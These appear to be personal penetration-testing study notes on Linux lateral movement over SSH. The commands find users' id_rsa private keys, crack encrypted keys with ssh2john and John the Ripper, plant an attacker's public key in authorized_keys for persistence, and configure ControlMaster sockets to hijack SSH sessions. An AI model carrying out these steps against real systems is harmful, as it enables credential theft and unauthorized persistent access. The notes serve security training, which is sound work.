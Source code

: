 ## Linux Lateral movement
#lateral-movement
Linking Linux:
[[Linux Post-exp]]

### Lateral movement with SSH

Stealing the key is the target, typically the permissions on the key are 600, but it might not always be the case. 
#ssh 

```bash
find /home -name "id_rsa"
```
Once we are root we can examine what is on the disk. When the priv key has the **Proc-Type header** it means it is encrypted with the password. 

If the system has **HashKnownHosts** in the **/etc/ssh/ssh_config** the hosts inside the **.known_hosts directory will be hashed** - that means that we cannot figure out where the user connected. We can always browse the **.bash_history**.

we can crack the key offline:
#cracking #private-key #rsa #ssh
```bash
python2 /usr/share/john/ssh2john.py svuser.key > svuser.hash
john --wordlist=/usr/share/wordlists/rockyou.txt svuser.hash
```

#### SSH Persistance

We must inject our public key to the users ~/.ssh/authorized_keys. To generate on kali:
#ssh #persitance
```bash
ssh-keygen
xclip -selection clipboard .ssh/id_rsa.pub
# then paste to the ~/.ssh/authorized_keys or we can do:
ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller
```

#### SSH Hijacking with ControlMaster

**ControlMaster** was made for admin to reuse the same socket for SSH connection. The following config must be in the **~/.ssh/config** to configure the ControlMaster:
#config #ssh #hijacking
```bash
Host *
        ControlPath ~/.ssh/controlmaster/%r@%h:%p
        ControlMaster auto
        ControlPersist 10m


```
Then we need to have the right permission on the config and controlmaster directory
```bash
chmod 644 ~/.ssh/config
mkdir ~/.ssh/controlmaster
```
